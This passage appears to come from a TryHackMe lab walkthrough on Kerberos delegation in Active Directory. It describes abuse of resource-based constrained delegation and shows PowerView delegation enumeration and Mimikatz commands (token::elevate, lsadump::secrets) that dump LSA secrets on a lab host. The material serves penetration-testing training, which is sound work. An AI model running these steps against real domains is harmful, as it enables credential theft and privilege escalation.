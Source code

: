 ## Resource-Based Constrained Delegation

So there are actually three types of Kerberos Delegation. But this one deserves to be mentioned on its own. Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. RBCD changes the delegation model entirely. Instead of specifying which object can delegate to which service, the service now specifies which objects can delegate to it. This allows the service owner to control who can access it. In our web application example, this means that instead of specifying that the web service account can delegate to the database service to access the database, we can now specify that on the database service that the web service account is allowed to delegate access to it.

Let's say that we have permission to configure RBCD for a service. This means we have the ability to set the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute for the AD Object. We can populate this attribute with the details of an AD account that we have access to. To now gain access to the service, we can generate a TGT for the account we control, which will allow us to interact with this service. If you want a detailed example of RBCD exploitation, take a look [here](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/).

## Constrained Delegation Exploitation

We will exploit Constrained Delegation for this task. The first thing we need to do is enumerate available delegations. Let's use our new privileged user for the network couple of commands. We can use the **Get-NetUser** cmdlet of PowerSploit for this enumeration by running the following command:

```shell-session
PS C:\>Import-Module C:\Tools\PowerView.ps1 
PS C:\>Get-NetUser -TrustedToAuth
```

Based on the output of this command, we can see that the svcIIS account can delegate the HTTP and WSMAN services on THMSERVER1. You would think that this means we can only access websites on behalf of impersonated users. However, PowerShell Remoting uses the HTTP and WSMAN services as well. The ideal option would be to impersonate a Tier 1 Admin since this would provide us with administrative access over THMSERVER1.

If you were to perform proper post-exploitation enumeration of THMWRK1, you would find that there is a service on the host running as the svcIIS user. Since we have administrative access now, we can use this to dump LSASecrets, part of the Windows Registry Hive where credentials are stored for features such as Windows services. Let's use [Mimikatz](https://github.com/gentilkiwi/mimikatz/security) to dump the secrets:

```shell-session
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

 .#####. mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ## > https://blog.gentilkiwi.com/mimikatz
 '## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
 '#####' > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM


mimikatz # lsadump::secrets
Domain : THMWRK1
SysKey : redacted

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 )
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
```